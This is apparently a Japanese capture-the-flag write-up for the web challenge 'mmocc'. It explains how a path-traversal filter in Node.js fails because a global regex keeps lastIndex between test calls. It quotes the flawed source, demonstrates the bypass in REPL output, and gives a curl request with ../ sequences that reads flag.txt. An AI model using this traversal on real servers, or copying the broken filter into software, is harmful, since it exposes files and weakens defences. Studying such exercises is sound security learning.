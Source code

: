 # mmocc:web:333pts
Massively multiplayer online cookie clicker!!  
[mmocc.tjc.tf](https://mmocc.tjc.tf/)  

Downloads  
[index.js](index.js)  

# Solution
サイトにアクセスすると他ユーザと共用のcookieクリッカーがある。  
[site.png](site/site.png)  
不審な点はないため、ソースを見ると以下のようであった。  
```js
~~~
const flag = fs.readFileSync(path.join(__dirname, 'flag.txt')).toString().trim();
~~~
const state = { clicks: 0 };
const routes = {
  clicks: async (_req, res) => {
    if (state.clicks === Infinity) res.json({ flag, ...state });
    else res.json(state);
  },
  click: async (_req, res) => {
    state.clicks++;
    res.end();
  },
  static: async (req, res) => {
    const regex = /\.\.\//g;
    const clean = (path) => {
      const replaced = path.replace('../', '');
      if (regex.test(path)) {
        return clean(replaced);
      }
      return replaced;
    };

    const location = [__dirname, 'static', clean(req.url)];
    if (location[2].endsWith('/')) location.push('index.html');
    const file = path.join(...location);

    let data;
    try {
      data = await fs.promises.readFile(file);
    } catch (e) {
      if (e.code === 'ENOENT') {
        res.statusCode = 404;
        res.end('not found');
        return;
      }
      throw e;
    }

    const type = types.get(path.extname(file)) ?? 'text/plain';
    res.setHeader('content-type', type);
    res.end(data);
  },
};
~~~
```
`/static`にて`clean`といったパストラバーサル対策を行っている。  
実はグローバルフラグを持った正規表現を用いてtestを呼び出すとlastIndexが加算される。  
そして次回のtestはそのlastIndexからのチェックが始まるため、以下のような挙動を引き起こす。  
```bash
$ node
~~~
> const regex = /\.\.\//g;
undefined
> regex.test("../../../../../satoki")
true
> regex.lastIndex
3
> regex.test("../../../../satoki")
true
> regex.lastIndex
6
> regex.test("../../../satoki")
true
> regex.lastIndex
9
> regex.test("../../satoki")
false
> regex.lastIndex
0
```
つまり文字列が変動する場合、正常に検査されない部分が存在することとなる。  
よって以下のように`clean`がバイパスできる。  
```bash
$ node
~~~
> const regex = /\.\.\//g;
undefined
> const clean = (path) => {
...     const replaced = path.replace('../', '');
...     if (regex.test(path)) {
.....         return clean(replaced);
.....     }
...     return replaced;
... };
undefined
> clean("../../../../../satoki")
'../satoki'
```
あとはflag.txtを読み取ればよい。  
以下のように行う。  
```bash
$ curl --path-as-is https://mmocc.tjc.tf/static/../../../../../../flag.txt
tjctf{h0w_h1gh_c4n_w3_g3t}
```
flagが得られた。  

## tjctf{h0w_h1gh_c4n_w3_g3t}